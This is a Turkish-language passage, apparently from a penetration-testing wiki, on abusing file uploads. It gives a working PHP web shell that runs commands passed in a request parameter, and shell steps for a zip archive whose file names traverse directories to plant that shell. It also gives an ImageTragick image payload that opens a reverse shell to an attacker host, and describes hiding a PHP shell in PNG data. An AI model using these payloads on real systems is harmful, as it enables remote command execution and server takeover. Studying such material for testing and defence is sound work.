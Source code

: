 ```python
create_zip()
```
**Sıkıştırmayı kötüye kullanarak dosya yayma**

Daha fazla detay için **orijinal gönderiyi kontrol edin**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **PHP Shell Oluşturma**: PHP kodu, `$_REQUEST` değişkeni aracılığıyla geçirilen komutları çalıştırmak için yazılır.

```php
<?php
if(isset($_REQUEST['cmd'])){
$cmd = ($_REQUEST['cmd']);
system($cmd);
}?>
```

2.  **Dosya Yayma ve Sıkıştırılmış Dosya Oluşturma**: Birden fazla dosya oluşturulur ve bu dosyaları içeren bir zip arşivi derlenir.

```bash
root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
root@s2crew:/tmp# zip cmd.zip xx*.php
```

3.  **Hex Editörü veya vi ile Değişiklik Yapma**: Zip içindeki dosyaların isimleri vi veya bir hex editörü kullanılarak değiştirilir, "xxA" "../" olarak değiştirilir ve dizinler arasında geçiş yapılır.

```bash
:set modifiable
:%s/xxA/..\//g
:x!
```

## ImageTragic

Bu içeriği bir resim uzantısıyla yükleyerek açığı kullanın **(ImageMagick , 7.0.1-1)** (form the [exploit](https://www.exploit-db.com/exploits/39767))
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```
## PNG Üzerine PHP Shell Gömme

Bir PNG dosyasının IDAT parçasına PHP shell gömmek, belirli görüntü işleme işlemlerini etkili bir şekilde atlatabilir. PHP-GD'den `imagecopyresized` ve `imagecopyresampled` fonksiyonları, sırasıyla görüntüleri yeniden boyutlandırma ve yeniden örnekleme için yaygın olarak kullanıldığından, bu bağlamda özellikle önemlidir. Gömülü PHP shell'in bu işlemlerden etkilenmeden kalabilme yeteneği, belirli kullanım durumları için önemli bir avantajdır.
